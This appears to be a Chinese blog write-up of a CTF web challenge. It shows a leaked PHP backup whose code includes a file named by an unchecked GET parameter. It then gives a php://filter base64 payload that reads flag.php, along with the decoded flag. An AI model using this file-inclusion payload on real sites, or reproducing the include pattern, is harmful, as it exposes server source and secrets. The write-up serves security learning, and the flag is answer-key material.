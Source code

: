 ```yaml
---
title: web01-2
date: 2024-04-07 14:32:17
updated: 2024-11-15 21:49:39
categories:
  - 网络安全
  - CTF竞赛
  - 蓝桥杯
  - Web
tags:
  - 网络安全
  - CTF
  - Web
permalink: /posts/web01-2/
---
```

## 题目描述
try your best to find the flag

## 解题
打开容器，并查看源代码
![](web01-2/image-20240308204323554.png)
![](web01-2/image-20240308204345166.png)

搜索得知是.bak信息泄露，访问`index.php.bak`:
查看源代码：
![](web01-2/image-20240308204503830.png)

```php
<?php
$f = $_GET["file"];
if(!isset($f)){
    $f = 'config';
    // flag in flag.php
}
include($f.'.php');
 
echo '<img src="'.$img.'" alt="Err" />';
?>
<!-- .bak -->

```

审计代码，发现index.php接收file参数，可以通过file参数进行文件包含。

文件包含中权限最小，也是最常用的就是php://filter协议，本题include会自动拼接  
“.php”后缀，仔细思索后构造payload:?file=php://filter/read=convert.base64-  
encode/resource=flag(猜测flag位于当前目录下)
![](web01-2/image-20240308205136776.png)

得到base64编码：`PD9waHANCiRmbGFnPSdmbGFnezc0Y2NlMTVkLTczN2YtNGJhMS1iYjc0LWZkN2UwZDQ3Nzg1M30nOw0KPz4=`

解码后得到：`flag{74cce15d-737f-4ba1-bb74-fd7e0d477853}`
```php
<?php
$flag='flag{74cce15d-737f-4ba1-bb74-fd7e0d477853}';
?>
```

